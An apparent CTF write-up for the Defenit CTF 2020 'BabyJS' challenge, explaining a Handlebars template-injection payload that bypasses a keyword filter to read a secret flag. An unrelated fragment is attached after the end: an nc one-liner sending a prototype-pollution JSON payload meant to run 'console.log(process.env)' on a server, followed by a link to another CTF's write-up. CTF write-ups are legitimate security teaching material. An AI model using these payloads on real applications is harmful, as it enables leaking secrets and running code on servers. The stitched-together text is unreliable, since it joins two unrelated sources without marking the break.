 # BabyJS  
*Defenit CTF 2020 - Web 248*  
  
*Writeup by Payload as ToEatSushi*

## Problem

Render me If you can.

## Look up

```javascript

/* ... */  
if (typeof content === 'string' && content.indexOf('FLAG') != -1 || typeof
content === 'string' && content.length > 200) {  
   res.end('Request blocked');  
   return;  
}  
/* ... */

app.get('/', (req, res) => {  
   const { p } = req.query;  
   if (!p) res.redirect('/?p=index');  
   else res.render(p, { FLAG, 'apple': 'mint' });  
});

app.post('/', (req, res) => {  
   const { body: { content }, userDir, saveDir } = req;  
   const filename = crypto.randomBytes(8).toString('hex');

   let p = path.join('temp', userDir, filename)  
  
   fs.writeFile(`${path.join(saveDir, filename)}.html`, content, () => {  
       res.redirect(`/?p=${p}`);  
   })  
});

```

Okay, we can render our own template which has <=200 bytes, and don't contians
string `FLAG`. Template engine is handlebars.

## Handlebars 101

Handlebars save there own templating environ in object `this`. In fact, when
we try `{{ log this }}`, then node.js console shows the structure of `this`
and it includes `FLAG` and `apple`.

And, there is a one more important feature `lookup`. It returns a value of
object with key. In here, key can be either string or identifier. Like, when
`a='FLAG'` then, `{{lookup this a}}` will give a flag.

Finally, `#with` statement allows us to do a lot of things. Actually, it's
really like javascript's `with`, which moves scope into the given object.

## Exploit

```  
{{#with this as |k|}}  
 {{#with "FLag"}}  
   {{#with (replace "ag" "AG") as |payload|}}  
     {{lookup k payload}}  
   {{/with}}  
 {{/with}}  
{{/with}

```

Simple explantation:  
1. Save top `this` as k to prevent this is overwritten in other with block  
2. with "FLag", move scope into `String "FLag"`  
3. Call member function `replace` under "FLag", to make "FLAG". Save it to payload  
4. Lookup saved k and get flag.

Anyway, the flag is not related with this challenge. Actually, it'll be a
great hint of AdultJS.

**`Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}`**  

Original writeup (https://github.com/mdsnins/ctf-
writeups/blob/master/2020/Defenit%20CTF/BabyJS/babyjs.md).```  
echo '{"a":1e-9123,"b":-1e-9234324,"c":"NaN","d":"NaN","e":-1,"f":"0","g":null,"h":99999999e999999999999,"i":3,"__proto__":"","y":"constructor","z":"console.log(process.env)"}' | nc flu.xxx 2071  
```https://eugenekolo.com/blog/nullcon-hackim-ctf-2019/#babyjs26solves

Original writeup (https://eugenekolo.com/blog/nullcon-hackim-
ctf-2019/#babyjs26solves).